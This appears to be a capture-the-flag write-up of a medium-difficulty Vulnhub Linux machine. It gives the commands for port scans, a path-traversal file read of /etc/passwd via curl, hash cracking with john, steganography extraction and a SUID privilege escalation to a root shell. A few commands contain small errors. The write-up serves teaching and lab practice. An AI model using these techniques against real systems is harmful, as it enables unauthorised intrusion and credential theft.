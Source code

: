 ```yaml
---
date: 2024-09-21
categories: [Linux, Medium]
---
```


![0445d14e4e2fb7114abb336ec9d8a2cf5ed84566](https://github.com/user-attachments/assets/2fcb4641-5c46-4d88-a820-f1115d958918)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [Ajay Verma](https://www.vulnhub.com/author/ajay-verma,598/)         | [Vulnhub](https://www.vulnhub.com/)     | Medium           | Linux   |

---






- I start with a scan of the open ports,
    
    ```bash
    nmap -p- --open -vvv -sS --min-rate 5000 -Pn 192.168.56.106 -oG scan
    ```
    
    ![image](https://github.com/user-attachments/assets/9689e1d7-ccd4-4a63-84e8-628afb7292a6)

    
- Scanning open ports.
    
    ```bash
    nmap -p80,1337,12320,12321,12322-sCV 192.168.56.106 -oN ports
    ```
    
    ![image 1](https://github.com/user-attachments/assets/4a213661-874a-41e6-9813-7e86503562c6)

    

- I look at what technologies they are using on the two websites.
    
    ```bash
    whatweb http://192.168.56.106/
    whatweb https://192.168.56.106:1337/
    whatweb https://192.168.56.106:12320/
    whatweb https://192.168.56.106:12322/
    ```
    
    ![image 2](https://github.com/user-attachments/assets/eda67d95-2b8a-4311-892a-8cdff5ccc05f)

    

- I access the different web pages to get a first impression of them in case I see something peculiar.
    
    ![image 3](https://github.com/user-attachments/assets/32b0dbc2-74d1-4f32-883a-b61eb81a03a9)

    
    ![image 4](https://github.com/user-attachments/assets/2342a2b8-b583-458c-a4fe-1053a8f1fd4f)

    
    ![image 5](https://github.com/user-attachments/assets/82a1277b-0b2c-487f-9bb4-1fb46f5250e7)

    
    ![image 6](https://github.com/user-attachments/assets/eefdc26f-63ab-40f2-a4d4-037c9e8e3e08)

    

- I check again the port scan and I see for `12322` a `robots.txt`, I take a look at it
    
    ![image 7](https://github.com/user-attachments/assets/562d7a16-cfc2-4f75-9d7e-56539f04c832)

    
    ![image 8](https://github.com/user-attachments/assets/4382ce2b-c4f6-4f0f-a21e-b8247927da89)

    
- When entering `file_view.php` it tells me that there is a parameter with which we can possibly read internal file (`LFI`)
    
    ![image 9](https://github.com/user-attachments/assets/cc539d4e-eef9-4598-96da-b097fa9a5c85)

    

- After trying different ways to enter the parameter, I find that we should indicate it in the body of a POST request
    
    ```bash
    curl -k -x POST "https://192.168.56.106/file_view.php" -d "../../../../../../../../../../../etc/hosts" 2>/dev/null
    curl -k -x POST "https://192.168.56.106/file_view.php" -d "../../../../../../../../../../../etc/passwd" 2>/dev/null | grep -v "/bin/false" | grep -v "nolog"
    ```
    
    ![image 10](https://github.com/user-attachments/assets/cd701ea3-ae74-4466-91be-193c86b075c3)

    
    ![image 11](https://github.com/user-attachments/assets/72c77b2b-b966-4eed-8f5e-aa6213f37eae)

    

- I find two users, `n30` and `testuser`. I try to access through port `12320` using the same user and password. I manage to login with `testuser`
    
    ![image 12](https://github.com/user-attachments/assets/2e7d7c58-a95c-47d5-8d62-f5d16ff7f35e)

    

- I check the files inside the directory of the web pages and find a possible credential.
    
    ![image 13](https://github.com/user-attachments/assets/13dc8ed7-ef81-4f0c-9f48-129b789f8c89)

    

- I use a page to see what kind of encryption this string might be.
  
    [Decrypt MD5, SHA1, MySQL, NTLM, SHA256, MD5 Email, SHA256 Email, SHA512, Wordpress, Bcrypt hashes for free online](https://hashes.com/en/decrypt/hash)
    
    ![image 14](https://github.com/user-attachments/assets/f3b30f2a-d163-40c3-8e25-1c7bb182efe9)

    

- I try to break the password with `john` and using a `md5crypt` encryption format. It gives me a possible password
    
    ```bash
    john -w /usr/share/wordlist/rockyou.txt hash --format=md5crypt
    ```
    
    ![image 15](https://github.com/user-attachments/assets/59df5d80-2421-4229-9a91-9f78c56f4d4a)

    
- I use the credentials found to access the port `1337` web page. At first glance I don't see anything interesting but on reviewing the source code I find a comment referring to an image.
    
    ![image 16](https://github.com/user-attachments/assets/33491752-eae8-4a3d-9ee8-a40c19ac7b94)

    
    ![image 17](https://github.com/user-attachments/assets/237322b2-31f3-42be-b8cc-c5bd6faeb121)

    

- I set up a server with `python` on port `8000` to download the image to my machine.
    
    ```bash
    python3 -m http.server
    wget https://192.168.56.106:8000/h1dd3n.jpg
    ```
    
    ![image 18](https://github.com/user-attachments/assets/278fe943-4ee7-40b3-8b23-b75e99bfe008)

    
- I try to look at the text strings in the photo but find nothing interesting so I try `stegseek` and get a possible password.
    
    ```bash
    stegseek h1dd3n.jpg
    ```
    
    ![image 19](https://github.com/user-attachments/assets/f2646e90-48c2-4ad9-9f97-eee324f16aee)

    
- I use the password with the user `n30` and I manage to pivot to that user.
    
    ![image 20](https://github.com/user-attachments/assets/8d6e0f8e-86f7-40b4-9cf4-7a5eef0351f7)

    
- I check the bash history of this user and I find a strange command, I see that he has `SUID` permission.
    
    ![image 21](https://github.com/user-attachments/assets/bb219458-2bcc-497a-bdc1-073519c468f0)

    
- I run it and become root
    
    ```bash
    /usr/bin/morpheus 'BEGIN {system("/bin/sh")}'
    ```
    
    ![image 22](https://github.com/user-attachments/assets/432c4f3c-105b-4122-a549-10fef49ba60d)
